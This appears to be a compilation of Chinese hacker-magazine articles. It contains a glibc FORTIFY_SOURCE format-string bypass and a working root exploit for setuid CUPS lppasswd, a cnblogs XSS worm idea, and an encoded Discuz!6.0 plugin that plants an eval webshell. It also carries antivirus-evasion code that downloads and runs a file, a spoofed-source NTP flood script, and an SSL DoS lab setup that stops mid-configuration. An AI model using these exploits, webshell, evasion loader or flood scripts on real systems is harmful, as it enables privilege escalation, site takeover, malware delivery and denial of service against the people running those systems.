    va_start (ap, format);
    done = vfprintf (stdout, format, ap);
    va_end (ap);
    if (flag > 0) stdout->_flags2 &= ~_IO_FLAGS2_FORTIFY;
    _IO_release_lock (stdout);
    return done;
}
```

图 1　程序 1，libc/debug/printf_chk.c

该函数将 FILE* 结构中的 _IO_FLAGS2_FORTIFY 位设置为 ON，从而开启 FORTIFY 检查。这是明智的做法，因为这样就使得在调用任何危险函数时该位都是开启的。在 libio/libio.h 中，还定义了如下的一些标志，如图 2 所示。

```c
#define _IO_FLAGS2_MMAP 1
#define _IO_FLAGS2_NOTCANCEL 2
#ifdef _LIBC
# define _IO_FLAGS2_FORTIFY 4
#endif
#define _IO_FLAGS2_USER_WBUF 8
#ifdef _LIBC
# define _IO_FLAGS2_SCANF_STD 16
#endif
```

图 2　libio/libio.h 中的标志定义

禁用所有这些标志并不会带来很大问题，只不过可能使得某些使用“m”模式打开的文件流指针会发生不一致。聪明的读者会开始研究 vfprintf 这些不需要文件流指针的函数。Glibc 提供了一个还可以的解决方案：在栈中生成一个文件流指针，并使用一个回调函数来将所有内容写到一个缓冲中而非文件描述符中。该文件流指针会被传递给 vfprintf 函数。

现在，我们已经设置了 _IO_FLAGS2_FORTIFY 位，就有了两种保护方法。其第一种保护方法如图 3 所示。

```c
LABEL (form_number):
    if (s->_flags2 & _IO_FLAGS2_FORTIFY)
    {
        if (!readonly_format)
        {
            extern int __readonly_area (const void *, size_t)
                attribute_hidden;
            readonly_format = __readonly_area (format,
                ((STR_LEN (format) + 1) * sizeof (CHAR_T)));
        }
        if (readonly_format < 0)
            __libc_fatal ("*** %n in writable segment detected ***\n");
    }
```

图 3　_IO_FLAGS2_FORTIFY 允许的保护方法 1。在 libc/stdio-common/vfprintf.c 中

如果 format string 的内容包含 %n，并且该 format string 在可写内存中（如栈、BSS、数据段或堆），那么该保护方法将检测出该问题并报告错误。除了引入 DoS 攻击的危险，该补丁还是为 format string 提供了很好的保护。其第二种保护方法如图 4 所示。

```c
nargs = MAX (nargs, max_ref_arg);
args_type = alloca (nargs * sizeof (int));
memset (args_type, s->_flags2 & _IO_FLAGS2_FORTIFY ? '\xff' : '\0', nargs * sizeof (int));
args_value = alloca (nargs * sizeof (union printf_arg));
args_size = alloca (nargs * sizeof (int));
...
for (cnt = 0; cnt < nargs; ++cnt) {
...
switch (args_type[cnt])
...
case -1:
    assert (s->_flags2 & _IO_FLAGS2_FORTIFY);
    __libc_fatal ("*** invalid %N$ use detected ***\n");
}
```

图 4　_IO_FLAGS2_FORTIFY 允许的保护方法 2。在 libc/stdio-common/vfprintf.c 中

该处代码的目的是：所有的 args_type 都默认设为 -1，如果被处理的参数之前还有没被处理的参数，那么这些参数将仍然为 -1。因此，“%4$x”是不合法的，而“%4$x %2$x %1$x %3$x”是合法的。说实话，我真不认为这是一个很好的安全机制，其并没有很好地防止信息泄漏。

### 绕过 FORTIFY_SOURCE

如果你仔细看，你会发现图 4 中的代码使用了很多 alloca。nargs 参数是计算出来的最大参数个数。如果 format string 只有简单参数，该值很容易算出来。但是，如果 format string 使用了宽字节参数或使用位置参数（即直接参数），那么这些参数也会被计入 nargs 中。例如：“%x %x %x %13981938$x”，其中 13981938 是图 4 代码中传给 alloca 函数的 nargs 值。

可惜的是，我们无法实现栈移动（stack shifting），因为我们已经错过了分配栈的过程。在函数结尾时，将通过基指针 EBP 来销毁当前函数栈帧，从而使得栈移动变得不是那么有用。大部分 C 编译器都实现了这种使用 EBP 来快速简便清除栈的方法，因此通过攻击 alloca 本身就很难了。

然而，我们可以来攻击使用分配后内存的操作。整数溢出可以被用来触发各种内存攻击。另外，我们也可以通过 alloca 将栈移动到堆中来实现攻击。该方法也是比较困难的，因为其使用了 memset 函数。

但是，我们还是漏了一种方法。使用该方法，正文中可以用来绕过 FORTIFY_SOURCE 的攻击方法如图 5 所示。

```c
for (cnt = 0; cnt < nspecs; ++cnt) {
    /* If the width is determined by an argument this is an int. */
    if (specs[cnt].width_arg != -1)
        args_type[specs[cnt].width_arg] = PA_INT;
}

enum {
    PA_INT,   /* C type: */
    ...       /* int */
}
```

图 5　任意 4 字节的 NULL 覆写。上述代码在 stdio-common/vfprintf.c 中

图 5 中的代码被用于处理宽字节参数。例如：对“%1$*269096872$x”的处理为：

// specs[cnt].width_arg = 269096872

args_type[specs[cnt].width_arg] = 0

因此，如果此时栈的设置是正常的，那么我们就可以将 stdout 的 FILE 结构中的 _IO_FLAGS2_FORTIFY 位关闭。

记住在图 4 代码中，args_type 是在栈上分配的一块缓存，并且是一个整数数组。另外，当 nargs 是一个非常大的数的时候，alloca 将会有点问题。栈可能会被移动到某个未映射的虚拟内存区，那么下次当使用 push 或 call 指令的时候将会导致 Linux 上的段错误。因此对于 nargs 的两个很重要的限制如下：

- 栈必须被移动到某个合法地址。
- memset 指令不能对未映射页面进行操作。

要满足上述两个条件，最简单的方法就是使用整数溢出。由于不会对 nargs 进行任何边界检查，我们可以将栈设置为合适地址：“%1073741824$”。第二个限制也可以被满足，因为 memset 的参数长度将为 0。

关于 alloca 的汇编实现细节稍微讲得复杂一点。对于我们的需求，只需知道 alloca 的结尾部分为：

esp -= nargs * (4)  
esp -= nargs * (12)  
esp -= nargs * (4)

1073741824 * 4 当被截断为 32 位整数时正好为 0。因此我们就可以实现我们的 4 字节 NULL 覆写。

图 3 中的保护代码可以通过清除文件流指针中的 _IO_FLAGS2_FORTIFY 位来禁用。通常，该位是被设置了的标志位。如果某些其他位被设置了，比如 _IO_FLAGS2_MMAP 位，那么当关闭文件流指针后，可能会发生问题。该问题可能会影响我们的攻击，也可能不会。

我们现在再来看第二种保护方法的补丁。其使得几乎所有 format string 攻击程序都变得不怎么灵活了。如图 4 中代码所描述的，在访问 %5$x 时，必须也得访问 %1$x、%2$x、%3$x 和 %4$x。否则，程序将终止。因此，我们可以使用如下两步来实现攻击：

- 关闭文件流指针中的 _IO_FLAGS2_FORTIFY。
- 设置 nargs=0，从而跳过第二个补丁。

### 攻击实现

本节我们将实现两个攻击实例，一个针对简单程序，另一个针对真实软件。另外，在攻击实现中，我们禁用了 ASLR，即本文的方法无法绕过 ASLR。

#### 1. 针对简单程序的攻击实现

被攻击程序如图 6 所示。

```c
//编译命令：gcc -D_FORTIFY_SOURCE=2 -O2
int main(){
    char buf[256];
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
}
```

图 6　一个简单的被攻击程序

执行如图 6 所示的编译命令，可以得到如图 7 所示结果。

```
Rabbit@Rabbit-laptop:/opt/test$ sudo gcc -D_FORTIFY_SOURCE=2 -O2 test.c
test.c: In function ‘main’:
test.c:5: warning: format not a string literal and no format arguments
test.c:4: warning: ignoring return value of ‘fgets’, declared with attribute warn_unused_result
Rabbit@Rabbit-laptop:/opt/test$ ls -a
.  ..  a.out  test  test.c
```

图 7　编译结果

我们可以看到输出文件中有 a.out，运行该文件，结果如图 8 所示。

```
Rabbit@Rabbit-laptop:/opt/test$ sudo ./a.out
%n
*** %n in writable segment detected ***
Aborted
Rabbit@Rabbit-laptop:/opt/test$ sudo ./a.out
%4$x
*** invalid %N$ use detected ***
Aborted
```

图 8　运行 a.out 结果

我们可以看到，FORTIFY_SOURCE 机制屏蔽了我们的恶意输入。前面我们已经说了如何绕过 FORTIFY_SOURCE：

- 禁用 FORTIFY_SOURCE。
- 设置 nargs=0。
- 使用 %n。

因此，首先我们将选择特定地址来实现前面描述的 4 字节 NULL 覆写。我们选择的地址如 %1$*269168516$。如果该地址没有导致程序崩溃，我们就将该地址增加 20000。我们将使用如下输入。该输入的第一部分会触发 NULL 覆写，第二部分保持栈在一个合理地址。

```
%1$*269168516$x %1073741824$
```

我们使用 gdb 和上述输入来调试该程序，结果如图 9 所示。

```
Rabbit@Rabbit-laptop:/opt/test$ gdb -q ./a.out
Reading symbols from /opt/test/a.out...(no debugging symbols found)...done.
(gdb) r
Starting program: /opt/test/a.out
%1$*269168516$x %1073741824$
Program received signal SIGSEGV, Segmentation fault.
0x001888f1 in _IO_vfprintf_internal (...)
(gdb) x/i $pc
=> ...
```

图 9　gdb 调试

FORTIFY_SOURCE 位一定在文件流指针中的某个位置 s=0x29f4e0。在本机上，该值在 +60，为 0x29f51c。由于此处的操作地址是相对地址，因此 ASLR 不是一个很大的问题。我们可以计算 $ecx + $eax*4，该值为 0x29f51c。再在 gdb 中执行：

```
(gdb) p/d ((0x10029f51c-$ecx) & 0xffffffff)/4
$11 = 269145003
```

上面 gdb 的命令 p/d 表示 print signed integer。再次调试结果如图 10 所示。对 nargs 重复执行上述操作。为了能够很容易地找到 nargs 的位置，可以使用一个很容易辨认的值来赋给 nargs，比如 0xdeadbeef。在本系统上，得到的结果是“0xbffeadcc: 0xdeadbeef”。继续使用上面的 gdb 命令：(gdb) p/d (0xbffeadcc-$ecx)/4+1 结果为 472。

```bash
Rabbit@Rabbit-laptop:/opt/test$ gdb -q ./a.out
Reading symbols from /opt/test/a.out...(no debugging symbols found)...done.
(gdb) break vfprintf
Function "vfprintf" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y
Breakpoint 1 (vfprintf) pending.
(gdb) r
Starting program: /opt/test/a.out
%1$*269145004$x %1073741824$  /* 此处的 269145004 来源于上面的 269145003+1 */
Breakpoint 1, _IO_vfprintf_internal (s=0x29f4e0,
format=0xbffeb2dc "%1$*269145004$x %1073741824$\n", ap=0xbffeb2c8 "@364") at vfprintf.c:210
210 vfprintf.c: No such file or directory.
in vfprintf.c
(gdb) tbreak *(vfprintf+11489)
Temporary breakpoint 2 at 0x1888f1: file vfprintf.c, line 1735.
(gdb) c
Continuing.
Temporary breakpoint 2, 0x001888f1 in _IO_vfprintf_internal (s=0x29f4e0,
format=0xbffeb2dc "%1$*269145004$x %1073741824$\n", ap=0xbffeb2c8 "@\364")
at vfprintf.c:1735
1735 in vfprintf.c
(gdb) x/i $pc
=> 0x1888f1 <_IO_vfprintf_internal+11489>: movl $0x0,(%ecx,%eax,4)
(gdb) x/wx $ecx+$eax*4
0x29f51c <_IO_2_1_stdout_+60>: 0x00000004
```

> 图 10  gdb 断点调试

因此，我们可以使用下面的参数来禁用 nargs 和 FORTIFY_SOURCE：[ %*472$%1$*269145004$%1073741824$ ]。

事实上，上面的参数是否能够适用还取决于你的缓存。例如，如果使用如下参数：%49150u %4847$hn %*472$ %1$*269145004$ %1073741824$。前两个参数将移动栈，并且得根据 $n 偏移重新计算。这个工作会有点枯燥。下一步就是要找到一个好的方法来劫持控制流。一个好的方法是在 %n 后面立刻调用一个 free，即：

```asm
0xb7d4f3f8 <_IO_vfprintf_internal+2024>: mov -0x4bc(%ebp),%edi
0xb7d4f3fe <_IO_vfprintf_internal+2030>: mov %edi,(%esp)
0xb7d4f401 <_IO_vfprintf_internal+2033>: call 0xb7d28988 <free@plt>

0xb7d28988 <free@plt>: jmp *0x24(%ebx)
(gdb) x/wx $ebx+0x24
0x29f018: 0x001b8e60
```

我们将覆写高 16bit 来使其指向栈，即将 0x001b 改为 0xbfff，写的地址为 0x29f01a。具体实现的一种方法是使用命令行参数：

```bash
%49150u %4847$hn %*13996$ %1$*269158528$ %1073741824$
```

因此，当我们成功后将看到如图 11 所示的效果。

```bash
Rabbit@Rabbit-laptop:/opt/test$ gdb -q ./a.out
Rabbit@Rabbit-laptop:/opt/test$ export PAY=`python -c 'print "\xcc"*4096*20'`
Rabbit@Rabbit-laptop:/opt/test$ (python -c 'print "%49150u %4847$hn %1$*269168516$x %1$*13996$x %1073741824$"') | ./a.out
`echo -ne "a ccc ddbbb\x1a\xf0\x29 ..."`
...
Trace/breakpoint trap (core dumped)
```

> 图 11  最后结果

#### 2. 针对真实软件的攻击实现

本节将实现对 CUPS locale 漏洞的攻击。Ronald Volgers 发现 lppasswd 使用了用户相关的位置信息，某些 Linux 发行版本（如 Debian 和 Ubuntu）都使用了 setuid root。使用如下命令查看 lppasswd：

```bash
ls -al /usr/bin/lppasswd
-rwsr-xr-x 1 root root 19144 2010-07-07 00:56 /usr/bin/lppasswd
```

该攻击的实现还是有一点难度的。首先，该程序不是与用户交互的。另外，lppasswd 会生成一个 LOCK 文件，因此我们的攻击程序必须非常可靠。图 12 是攻击实现代码。

lppasswd 中 libcups 的漏洞是通过 vsnprintf 来触发的。该函数会在栈上生成一个假的文件流指针并将其传给 vfprintf。其中含有漏洞的函数如图 13 所示。

```c
#include <sys/resource.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/time.h>
int main(int argc, char *argv[]){
    struct rlimit rara;
    int keke[4096*4];
    char test[0x10000];
    char *args[] = {"./lppasswd", 0};
    char *env[] = {"LOCALEDIR=/", &keke, test, 0};
    int riri, jmp = 0xbfdc666c;
    memset(test, 0x1, sizeof(test));
    test[0x10000-1] = 0x00;
    for(riri = 0; riri < sizeof(keke)/sizeof(int); riri+=4){
        keke[riri-0] = jmp+2; keke[riri+1] = jmp;
        keke[riri+2] = jmp;   keke[riri+3] = jmp;
    }
    rara.rlim_max = rara.rlim_cur = atoi(argv[1]);
    setrlimit(RLIMIT_NOFILE, &rara);
    execve("./lppasswd", args, env);
}
```

> 图 12  针对 lppasswd 的攻击实现代码

```c
int _cupsLangPrintf(FILE *fp, /* I - File to write to */
                   const char *message, /* I - Message string to use */
                   ... ) /* I - Additional arguments as needed */
{
    ...
    va_start(ap, message);
    vsnprintf(buffer, sizeof(buffer), _cupsLangString(cg->lang_default, message), ap);
    va_end(ap);
    ...
}
```

图 13  Libcups 中含有漏洞的函数

当没有 ASLR 时，最好的选择是跳到返回地址后面。vfprintf 中的回调函数如图 14 所示。

```gdb
Breakpoint 1, _IO_vfprintf_internal (...)
format=0x1187a0 "chown root:root /tmp/sh; chmod 4755 /tmp/sh; %49150u ..."
(gdb) bt
#0 _IO_vfprintf_internal (...)
#1 __vsnprintf_chk (...)
#2 vsnprintf (...)
#3 _cupsLangPrintf (...)
#4 0x0011116a in main (...) at lppasswd.c:316
(gdb)
```

图 14  vfprintf 中的回调函数

第二个返回地址很适合用于攻击。其中，第二个参数指向用户的输入。我们可以用这个参数来覆盖返回地址。该地址可以被改为 &system 或 __libc_system 或 do_system。那么目的第二个参数就变成了 system 函数的参数。

在上面的代码中，我们设置了返回地址：`int imp = 0xbffdc66c`。

```c
keke[riri+0] = imp+2;
keke[riri+1] = imp+2;
keke[riri+2] = imp;
keke[riri+3] = imp;
```

图 15 中展示了绕过 NX 的代码。

```po
msgid "lppasswd: Unable to open password file: %s\n"
msgstr "chown root:root /tmp/sh; chmod 4755 /tmp/sh; %49150u %7352$hx ... %1073741824$"
```

图 15  绕过 NX（在 C/cups_C.po）

上面代码中的第一部分执行一个命令，另外还填充了 4 个参数。这 4 个参数没有实际作用。该代码通过覆盖返回地址中的最低和最高有效半字（half-words）来将执行流劫到 system。`%14263u %7352$hn %27249u %7353$hn`。最后一部分用于绕过 FORTIFY_SOURCE：`%1$*14951$x %1$*14620$x %1073741824$`。

```bash
Rabbit@Rabbit-laptop:/opt/test/cups-1.4.8/systemv$ ls -l lppasswd
-rwsr-xr-x 1 root root ... lppasswd
...
$ cp /bin/bash /tmp/sh
$ gcc -o sf sploit_filz.c
...
$ ./sf 4
Enter old password:
Enter password:
Enter password again:
sh: %49150u: not found
Segmentation fault
...
$ ls -al /tmp/sh
-rwsr-xr-x 1 root root ... /tmp/sh
$ /tmp/sh -p
sh-4.1# id
uid=1337(captain) gid=1337(captain) euid=0(root) ...


```

图 16  针对 lppasswd 漏洞攻击结果

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：博客园，跨站，漏洞

## 博客园博客跨站漏洞利用
文/图  大石头

XSS 又叫 CSS（Cross Site Script），跨站脚本攻击。它指的是恶意攻击者往 Web 页面里插入恶意 HTML 代码，当用户浏览该页之时，嵌入其中 Web 里面的 HTML 代码会被执行，从而达到恶意用户的特殊目的。例如，通过跨站方式，攻击者可以拿到用户的登录 cookie，然后伪装成正常用户来做一些事情，也可以直接编写蠕虫传播。

博客园的博客做得还不错，但是仍然免不了出现漏洞。先来测试一下博客园的添加随笔编辑器。如图 1 所示，直接点击“编辑 HTML 源代码”（就是“HTML”的按钮）编写随笔。
图 1

在随笔的任意位置添加如下代码：

```html
<script type="text/javascript">
    alert("Hello, World!!");
</script>


```

标题随便写，内容也随便写。提交后，访问一下自己刚才发布的随笔，便会得到期待的窗口，如图 2 所示。
图 2

经过测试，没有在标题里发现跨站漏洞。显然，博客园有跨站漏洞，我们怎么利用这个漏洞呢？下面，我只想简单介绍思路。我们可以用 JavaScript 写一个模仿登录用户发随笔或者删除随笔或者其他操作的脚本（比较简单，只需要认真分析博客园的 HTTP 请求形式就行）。为什么我们要模仿发随笔？因为我们想让精心构建的随笔能够像蠕虫一样传播（通过复制构建的随笔）。想要模仿登录用户，我们还需要获得登录用户的 cookie，用获得的 cookie 和博客园的服务器进行通信。

在博客园里面发布随笔，我们可以发布到博客园候选区或者首页，如图 3 所示。
图 3

这样，就有比较多的人能够看到我们精心构建的随笔。顺便提一下，在博客园发表的随笔会被一些网站如 http://www.th7.cn（第七城市，广告超多）盗用。而“第七城市”在百度搜索里面排名还挺高，我搜索过我自己的随笔标题，排名第一位的竟然是盗用者“第七城市”的链接。“第七城市”没有过滤 JavaScript 脚本。第一次发文，难免有遗漏之处，请谅解。

- 前置知识：无
- 关键词：Discuz!, XML

## Discuz!6.0 管理员权限插件导入获取 Webshell
图/文  simeon

Discuz!6.0 管理员权限插件导入获取 Webshell 的原理跟 Discuz!7.2 差不多，但其代码有些不一样。该代码是经过编码的，将该文件保存为 XML 文件。导入代码如下：

```text
YToyOntzOjY6InBsdWdpbiI7YTo5OntzOjk6ImF2YWls
YWJsZSI7czoxOiIxIjtzOjc6ImFkbWluaWQiO3M6MToiMC
I7czo0OiJuYW1lIjtzOjg6IkdJcNoZWxsljtzOjEwOjlpZGVu
dGlmaWVyIjtzOjI2OiJhJ1Q9ZXZhbCgkX1BPU1RbY21kXSk7
JGFbJyl7czoxMToiZGVzY3JpcHRpb24iO3M6MDoiIjtzOjE
wOjkYXRhdGFibGVzIjtzOjA6IiI7czo5OjkxYJIY3RvcnkiO3
M6MDoiIjtzOjk6ImNvcHlyaWdodCI7czowOiIiO3M6Nzoi
bW9kdWxlcyI7czowOiIiO31zOjc6InZlcnNpb24iO3M6N
ToiNi4wLjAiO30=


```

### 1. 导入插件

进入 Discuz!6.0 后台后，单击“扩展设置”，然后单击“插件管理”，如图 1 所示。将上面的代码复制到导入插件数据的文本框中，同时选择“允许导入不同版本 Discuz! 的插件”。
### 2. 查看导入的插件

导入成功后，会自动在插件管理中显示插件名称、唯一标识符等。如图 2 所示，表示插件导入成功。
### 3. 测试 Webshell

Discuz!6.0 插件导入后获取的 Webshell 需要有执行权限，否则即使导入成功，也可能不能获取 Webshell。其 Webshell 的具体地址为：

```text
http://localhost/dz6.0/forumdata/cache/plugin_a']=eval($_POST['cmd']);$a['.php


```

将该地址加入到一句话后门中，如图 3 所示。
在中国菜刀中单击刚才添加的记录，如图 4 所示，成功获取 Webshell。
图 4  成功获取 Webshell

- 前置知识：汇编
- 关键词：堆空间，启发式，免杀

## 利用堆空间突破启发式
文  ForXuan

这个思路是前几天复习指针时突然想到的，我们先来看一段代码：

```cpp
char *p = new char[3];
*(p+1) = 'f';
printf("%x\n", *p);
printf("%c\n", *(p+1));
printf("%x\n", *(p+2));
delete p;
```

写这段代码当时是为了测试堆空间，输出结果为：

```text
fffffcd
f
fffffcd
```

从结果中可以看到，除了中间那个“f”是我赋值的，上、下两个数据是堆空间申请后的初始值。当时我就觉得 0xfffffcd 这个数值应该是系统用来识别堆空间用的，这样在释放的时候就可以根据这个数值知道应该回收哪些字节了。这时编译的模式是 Debug 模式，于是下意识地调成 Release 模式，再次编译后竟出现了不同的结果：

```text
0
f
0
```

我们可以看到 Release 模式后，堆空间的初始值变成了 0，至于为什么变成 0 我至今也没搞清楚（本人水平有限，如果有知道的朋友还望指出原因）。但马上就跟免杀方面联系到了一起：Debug 是调试模式，它的堆空间就有初始值，那么杀软的虚拟机环境也可以算是一个调试模式了，那里面的堆空间会不会也是有初始值的呢？于是拿卡巴做了一个实验，证明我的想法是没错的。由此我们就可以利用这一点来突破卡巴的启发式查杀，下面是主要的代码：

```cpp
char * Str="c:\\test.exe";
char * Url="file://c:\\windows\\system32\\notepad.exe";
HINSTANCE hi;
hi=LoadLibrary("urlmon.dll");
PVOID Down=GetProcAddress(GetModuleHandle("urlmon.dll"),"URLDownloadToFileA");
_asm
{
    push 0
    push 0
    push Str
    push Url
    push 0
    call Down
}
FreeLibrary(hi);
char *p1=new char[1];
if ((*p1)==0)
{
    hi=LoadLibrary("kernel32.dll");
    PVOID Run=GetProcAddress(GetModuleHandle("kernel32.dll"),"WinExec");
    _asm
    {
        push SW_SHOW
        push Str
        call Run
    }
    FreeLibrary(hi);
    delete p1;
}


```

代码很简单，就是利用判断新申请的堆空间初始值是否为 0：不为 0 就说明是在卡巴的虚拟机环境内，否则不会执行完整功能。此段代码在多台 WinXP SP3 和 Win7 环境下测试通过，均可以成功下载安装并运行记事本。卡巴、小红伞、NOD32 的启发式也都全部免杀。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：协议，工具，Scapy
## 协议包构造工具——Scapy

图/文 乱雪

### 前言

Wireshark 是一个非常优秀的跨平台协议抓包工具。由于笔者长期研究网络协议方面的内容，光靠抓包学习协议是不够的，很多时候需要自己构造协议数据包。但基于 WinPcap 编程也比较琐碎麻烦，所以需要一个能专心于数据包构造、又不用分心去花大部分时间在编程细节上的工具。

Scapy 就是一个很好的协议包构造程序。说它是程序还不是特别准确，它不仅可以在命令交互式下设置各个协议的字段值、发送和接收数据，还可以作为库来使用。如此强大的功能都在于它是基于 Python 开发的，所以可以在自己的 Python 程序中很方便地 import。

（其实是一个函数，为了不引起混淆，在这里我错误地将其称为“命令”）来列出对协议数据包通用的操作方法以及说明。如图 2 所示。
图 1
图 2

### Scapy 的使用

Scapy 在 Ubuntu 下很好安装，直接用 `apt-get install scapy` 即可。因为 BackTrack 5 中本身就自带了 Scapy，就不浪费时间再介绍它的安装了。我们将集中精力在它的使用方法上，笔者就直接使用 BackTrack 5 中的 Scapy。

Scapy 在 BackTrack 5 中位于 “BackTrack -> Information Gathering -> Network Analysis -> Network Traffic Analysis” 菜单下，也可以直接在终端中输入 `scapy` 命令启动。注意需要 root 权限。

启动 Scapy 之后，首先就是一个交互式操作界面，如图 1 所示。

Scapy 用的是面向对象的设计，也就是说，每个协议就是一个类，对协议的操作就是调用函数。理解这个很重要。在交互界面中，可以通过 `lsc()` 命令来列出对协议数据包通用的操作方法以及说明。

其中我们用得比较多的是 `send()` 和 `sendp()`。从后面的英文解释看得出，`send()` 是用来发送第三层（网络层）协议的数据包，也就是最常用的 TCP 和 UDP 协议；`sendp()` 是发送第二层（数据链路层）的，典型的就是 ARP 协议。

使用 `ls()` 可以列出当前 Scapy 中所支持的所有协议，如图 3 所示。Scapy 支持相当多的协议，并且 Scapy 允许用户自己扩展协议，关于这点就不在此讨论了。

还可以通过 `ls(协议名)` 来列出指定协议的具体字段，即字段说明。ARP 协议的字段说明如图 4 所示。
图 3
图 4 列举了 ARP 协议的字段，通过 `ls(ARP)` 来列举

了解以上后，现在就可以具体构造一个协议包试试了。这里我构造一个 ARP 协议包。方法就跟定义对象一样：在交互式中输入 `arp = ARP()` 来定义一个 ARP 协议对象。此时可以通过 `arp.show()` 方法来显示具体字段，如图 5 所示。
图 5

设置协议字段可以通过“对象名.字段名”的格式。此例中，`hwsrc` 是源主机的 MAC 地址，`hwdst` 是目标主机的 MAC 地址。咱就用源地址 `AA:AA:AA:AA:AA:AA` 向 `FF:FF:FF:FF:FF:FF` 发送一个广播 ARP 数据包，如图 6 所示。
图 6

上文我已经提到了，直接使用 `sendp` 就可以发送二层数据包了，对吧？但 Scapy 有趣的地方在于，它可以让你感受一下数据的封装。我们知道以太网标准帧格式需要有目标和源 MAC 地址，于是我们还需要封装一下以太网帧格式，然后再发送。

也就是说，我们在此还需要像构造 ARP 包一样构造一个标准以太网帧，如下所示：

```python
>> ether = Ether()
>> ether.show()
    dst = 00:00:00:00:00:00
    src = 00:00:00:00:00:00
    type = 0x0
>> ether.dst = "ff:ff:ff:ff:ff:ff"
# dst 就是目标 MAC 地址，这里设置成广播地址
>> sendp(ether/arp)


```

上层的包就“封装”在“/”的右边。回车后提示 “Send 1 packets”，表明发送出一个数据包。我用 Wireshark 捕捉到的情况如图 7 所示。
图 7

### 在 Python 中 import Scapy

我们完全可以在自己的 Python 脚本中使用 Scapy，将刚才的示例写成 Python 脚本如下：

```python
from scapy.all import *
arp = ARP()
arp.hwsrc = "AA:AA:AA:AA:AA:AA"
arp.hwdst = "FF:FF:FF:FF:FF:FF"
ether = Ether()
ether.dst = "FF:FF:FF:FF:FF:FF"
sendp(ether/arp)
```

这里只用注意，导入时用 `scapy.all`。

### 实例：NTP 洪水攻击

以前的 linxinsnow 和 Longas 就在黑防上写过关于 NTP 洪水攻击了，于是就研究了一下，顺便就用 Scapy 来完成这个攻击脚本。脚本如下：

```python
from scapy.all import *
for i in range(1, 10000):
    # 构造 IP 数据包
    ip = IP()
    # 伪造一个源地址，NTP 服务器返回的数据流走上面去
    ip.src = "192.168.1.102"
    # 这是 NTP 服务器的 IP
    ip.dst = "133.100.11.8"
    # 构造 UDP 数据包
    udp = UDP()
    # 源端口，示例中使用 42155
    udp.sport = 42155
    # 目标端口，NTP 服务监听端口 123
    udp.dport = 123

    # 构造 NTP 数据包
    ntp = NTP()
    # NTP 版本，我用的 v2
    ntp.version = 2
    # 模式，内部模式
    ntp.mode = 7
    ntp.stratum = 0
    ntp.poll = 2
    ntp.precision = 42
    # 将数据包封装后发出去
    send(ip/udp/ntp)


```

这里主要用 Scapy 自己构造了一个 IP 包、UDP 包，还设定了特定几个 NTP 字段。用 Scapy 伪造数据包是非常方便的。题外话，其实有许多协议都有一个致命弱点，就是可以伪造数据，这也是早期发明协议时没有考虑过的安全问题吧。当时我用这个脚本来测试家里的 TP-LINK，循环了 10 万次，几分钟就掉线了。

前置知识：无

关键词：SSL，DoS，抓包

## SSL DoS 攻击测试
图/文 启恋

### 前言

德国黑客组织 “The Hacker’s Choice” 发布了工具 THC SSL DOS。与传统 DDoS 工具不同的是，只需要一台执行单一攻击的电脑就能迅速消耗服务器资源，造成服务器拒绝服务。

这个攻击方式的本质是消耗服务器的 CPU 资源。在协商加密算法的时候，服务器 CPU 的开销是客户端的 15 倍左右。而 Renegotiating 机制让攻击者可以在一个 TCP 连接中不停地快速重新协商；如果建立多个连接则服务端的压力更为可怕，而且这种攻击建立的连接数很少，导致难以被察觉。为了解其工作原理及其效果，本文试图通过搭建攻击演示环境进行一次模拟演示。

当前国内对于这个拒绝服务攻击的介绍相对较少，但是对于其攻击原理的阐述已经有几篇高质量文章。本文就相对忽略对其攻击本质的阐述，重点放在服务器搭建以及如何构成有效攻击，同时触发此攻击。

Renegotiating 机制可以让攻击者在一个 TCP 连接中不停地快速重新协商。由此可知，我们可以通过禁用 Renegotiating 机制来实现延缓此类拒绝攻击。但是其只能相对延缓，仍然不能彻底解决问题。如果通过客户端模拟多次请求连接，则依然会出现服务器端消耗资源过大的情况。

由于德国黑客组织提供的工具 THC SSL DOS 目前只针对 Renegotiations Enabled 的情况，因此本文就提供如何在常用服务器工具中选择能够实现 Renegotiations Enabled 的工具来搭建 HTTPS 访问环境。根据笔者的搭建测试，发现 IIS 6.0、IIS 7.0 默认 Renegotiations 不启用；经过用指令（for IIS 6: `cscript adsutil.vbs set \w3svc\0\SSLAlwaysNegoClientCert True`）启用后，测试依然失败，测试效果如图 1 所示。

经过多次探索始终没能找出原因，也许是 Windows 的特殊机制，导致我在测试过程中发现该类服务器并不受该攻击工具的影响。笔者转而换 Windows 2003 搭配集成有 OpenSSL 的 Apache 服务器进行测试。经过多次测试及查阅漏洞相关资料获知，OpenSSL 0.9.8L 编译后关闭 Renegotiating，而其后一个版本 0.9.8M 中则重新启用了 Renegotiating，但是实现了 Secure Renegotiation。笔者测试后发现，在 OpenSSL 0.9.8L 及其以上版本中测试时提示同样是 `ERROR: Target has disabled renegotiations`，由此确定 OpenSSL 选择 `0.9.8i` 以下版本，对于 Apache 则无版本要求。
图 1 IIS 攻击效果

#### 说明

从漏洞形成原因中，我们看到 Renegotiating 机制…

### 环境搭建

经过前番的工作准备，我们开始本次测试之旅。工具设备如下：

- Windows 2003 虚拟机一台。
- `apache_2.2.11_Win32_x86_openssl_0.9.8i`（集成 OpenSSL 的 Apache 服务器）。
- `thc-ssl-dos-1.4-win-bin`（攻击测试工具）。
- BT4 虚拟机（生成证书用）。
- Wireshark（抓包分析使用）。

搭建流程：安装 Apache → 实现 HTTP 访问 → 制作证书 → 实现 HTTPS 访问。首先安装 Apache 服务器，能够实现 HTTP 访问；安装后访问 `http://127.0.0.1`，证明 HTTP 访问正常。
图 2 搭建完成 HTTP 访问正常

其次，加载 `mod_ssl` 模块实现 HTTPS 访问，步骤如下：

```conf
1. 进入目录 C:\Apache\conf（Apache 安装在 C:\Apache 的情况），修改 httpd.conf：

#LoadModule ssl_module modules/mod_ssl.so
LoadModule ssl_module modules/mod_ssl.so

#Include conf/extra/httpd-ssl.conf
Include conf/extra/httpd-ssl.conf
```

```conf
2. 进入目录 C:\Apache\conf\extra，修改 httpd-ssl.conf：

SSLCertificateFile "C:/Apache/conf/server.crt" -> SSLCertificateFile "C:/Apache/conf/ssl.crt/server.crt"
SSLCertificateKeyFile "C:/Apache/conf/server.key" -> SSLCertificateKeyFile "C:/Apache/conf/ssl.crt/server.key"
#SSLCACertificatePath "C:/Apache/conf/ssl.crt"
